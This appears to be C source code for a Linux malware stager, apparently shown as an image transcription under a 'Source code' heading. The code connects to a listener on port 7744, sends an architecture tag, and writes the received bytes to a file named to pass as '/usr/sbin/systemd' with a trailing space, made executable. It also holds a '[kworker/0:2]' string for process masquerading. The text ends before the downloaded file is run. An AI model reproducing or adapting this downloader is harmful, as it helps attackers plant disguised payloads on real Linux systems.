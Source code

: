 ```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/stat.h>

int main(int argc, const char **argv, const char **envp)
{
    int sock;
    FILE* file;
    struct sockaddr_in addr;
    struct timeval timeout;
    char* bin_systemd = "/usr/sbin/systemd ";
    ssize_t recved_data;
    char buffer[4096];
    char * str_kworker = "[kworker/0:2]";

    sock = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
    if (sock < 0)
        return 1;

    timeout.tv_sec = 10;
    timeout.tv_usec = 0;
    setsockopt(sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof(timeout));

    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = inet_addr("127.0.0.1");
    addr.sin_port = htons(7744);

    if (connect(sock, (struct sockaddr*)&addr, sizeof(addr)) < 0)
    {
        close(sock);
        return 2;
    }

    file = fopen(bin_systemd, "w");
    if (!file)
    {
        bin_systemd = "./systemd";
        file = fopen(bin_systemd, "w");
        if (!file)
        {
            close(sock);
            return 3;
        }
    }
    chmod(bin_systemd, S_IRWXU);
		
		// arch = l64 | l32 | a64
    const char* arch = "l64";
    send(sock, arch, strlen(arch), 0);
    send(sock, &addr.sin_addr.s_addr, sizeof(addr.sin_addr.s_addr), 0);

    while ( 1 )
    {
        recved_data = recv(sock, &buffer, sizeof(buffer), 0);
        if (recved_data <= 0)
            break;
        fwrite(&buffer, 1, recved_data, file);
    }

    fclose(file);
    close(sock);
```